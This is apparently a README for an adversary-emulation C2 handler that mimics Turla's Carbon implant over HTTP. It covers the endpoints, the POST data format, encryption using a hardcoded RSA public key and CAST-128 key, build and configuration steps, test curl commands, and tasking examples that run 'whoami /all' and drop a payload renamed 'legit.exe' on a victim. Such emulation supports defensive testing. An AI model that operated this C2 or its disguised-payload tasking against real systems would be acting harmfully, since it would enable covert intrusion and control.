 # Carbon HTTP handler

The Carbon HTTP C2 handler is the server-side counterpart for the Carbon implant and is specifically designed to interact with it over HTTP.
The handler is configured to do the following:

- respond to basic heartbeat requests at `/` to indicate server availability.
- register a new implant at `/javascript/*` where * indicates any page when a `PHPSESSID` cookie is included.<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>
- indicate that a session exists for an existing implant at `/javascript/*` where * indicates any page when a `PHPSESSID` cookie is included.
- return command instructions at `/javascript/view.php` when a `PHPSESSID` cookie is included.<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>
- process posted data at `/javascript/` for requests with a valid `PHPSESSID` cookie.
- accept tasking from `./evalsC2client.py` and send to implants when requested.

## Components

The handler consists of an HTTP web server that listens on a specified address/port and serves the following URL endpoints:

- `GET /`, where the server is expecting heartbeat requests and will respond with `200 OK` if it is up.
- `GET /javascript/*`, where * indicates any page, where the server is listening for requests with a `PHPSESSID` cookie. The server will register new implant sessions using that `PHPSESSID` cookie value as the UUID or state that the session already exists.<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>
- `GET /javascript/view.php`, where the server is listening for requests with a `PHPSESSID` cookie. The server will return an HTML document with a task embedded, currently encoded in base64.<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>
- `POST /javascript/` or `POST /javascript/*`, where the server is listening for requests with a `PHPSESSID` cookie and data. The server will attempt to process data sent with the `POST` request. The correct format for this data is as follows:

| Field | Data Type | Description |
| ------------ | ----------- | ----------- |
| id | 4 byte int | the task ID |
| val | 4 byte int | number of files to send |
| tmp_filesize | 4 byte int | the length of the file being uploaded |
| tmp_content | bytes | the data of the file being uploaded |
| len_object_id | 4 byte int | the length of the implant's ID |
| object_id | bytes | the implant's ID |

## Encryption

When tasking the implant, the Carbon C2 handler will encrypt the task information before embedding the base64 blob in the response HTML. The tasking information is first encrypted using CAST128 and a randomly generated symmetric key. This key is then base64-encoded and encrypted using an RSA public key. The CAST128 ciphertext (with the IV prepended) is appended to the RSA ciphertext, and the result is base64-encoded and placed in the response HTML.<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/),[2](https://www.gdatasoftware.com/blog/2015/01/23926-analysis-of-project-cobra),[3](https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html)</sup>

The following RSA public key is used (DER base64-encoded):

```
MIIBCAKCAQEAxcvv98NsuX1Fuff9LDyV5fpp/MAbPvIYiMyoups9uhJz7v0E4MRCZQoM6w49rjmMTgsps3TJe8IR/6waEOTzevVBmma2LFd6Q+wlOnfdHFLa2YjCUyY1fvBP+7poc9U/hjf4mLs9hGih8wBUEPZtNYerA/aZM2bwpH7JjTXdQmCZ0Y7WalNn3me+Y9mEXQS16+uxXX3uEjB0zg9J+18H5dDRe40O91pLToAGKw/+s3bs9wuvLw0sArUQusC0T/msUOAawPgUDDv008w1PJblHRnDq6u1R1WD73VjDo1cGd/OfZH166JkVLiOXsrcgYL820cr1BuQuBoMthER5QUs7wIBEQ==
```

The 2048-bit RSA public/private key pair used for this implant was generated using Crypto++'s `GenerateRandomWithKeySize` method and then converted to DER format.
To convert from DER to PEM format, you can use the following `openssl` commands:

```
openssl rsa -RSAPublicKey_in -in rsa-public.key -inform DER -outform PEM -out public.pem -pubout
openssl rsa -in rsa-private.key -inform DER -outform PEM -out private.pem

# Used in c2 handler testing
openssl pkey -in private.pem -traditional -out privatepkcs1.pem
```

When handling task output from the implant, the C2 handler will decrypt responses using the following hardcoded CAST-128 key:

```
f2d4560891bd948692c28d2a9391e7d9
```

Carbon DLL has used a similar encryption setup for C2 communication in the past<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>, with additional components such as an intermediary signature block.

## Usage

### Building

You can build the control server binary with the following command:

```
go build -o controlServer main.go
```

### Configuration

To enable and configure the Carbon HTTP handler within the control server, edit the `config/handler_config.yml` from the main C2 server repo. Adjust the Carbon HTTP entry as needed.

Example:

```
carbonhttp:
    host: 10.0.2.4
    port: 80
    enabled: true
```

Run the `controlServer` binary as `sudo` and look for success messages in starting up the Carbon handler.

```
sudo ./controlServer
```

### Testing

Unit tests are available for this handler in the `carbon_http_test.go` file. If you would like to run these tests, use the command `sudo go test ./...` in the `evalsC2server` directory, and the unit tests for the Carbon handler will be performed.

If you wish to test this handler manually, these are some sample `curl` commands that might be useful:

- check that the server heartbeat functionality works:

```
curl http://10.0.2.4:80
```

- check that the server creates a session for a new implant, responds to an existing session, and returns basic tasking output

```
curl -b 'PHPSESSID=ValidUUID' http://10.0.2.4:80/javascript/view.php
```

- check that the server is responding with the correct HTTP status in the case of an error

```
curl -v http://10.0.2.4:80/javascript/somepage.php
```

- check that the server is able to process `POST` data correctly **(out of date)**

```
curl -X POST -b "PHPSESSID=ValidUUID" http://10.0.2.4:80/javascript/ -d '101 | 2 | 100 | result data | 200 | result data 2 | 16 | ValidUUID'
```

### Tasking

To submit a task for the to the C2 server, pass the task information to the REST API server in a JSON dictionary string containing the following fields<sup>[1](https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/)</sup>:

| Field | Data Type | Description |
| ------------ | ----------- | ----------- |
| id | int | required, task ID |
| routing | string | optional, P2P routing blob |
| code | int | optional, task type code. Defaults to `0` if not provided. Can be from 1-99 |
| payload | string | optional, name of the server-side payload to deliver as part of the task. The file must reside in the `Resources/payloads/carbon` directory in the parent repository |
| payload_dest | string | optional, path to save the payload on the victim machine. Must be provided if passing in `payload` |
| cmd | string | required, the command to execute |

The C2 handler will take care of building the appropriate config file using the provided payload and app information.

Examples (`GUID` represents the ID of the implant to task:

```
# Task without a payload
./evalsC2client.py --set-task [UUID] '{"id": 1, "code": 0, "cmd": "whoami /all"}'

# Task with a payload
./evalsC2client.py --set-task [UUID] '{"id": 2, "code": 0, "payload": "sniffer.exe", "payload_dest": "C:\\Users\\Public\\legit.exe", "cmd": "C:\\Users\\Public\\legit.exe arg1 arg2"}'
```

### CTI References

1. <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
2. <https://www.gdatasoftware.com/blog/2015/01/23926-analysis-of-project-cobra>
3. <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
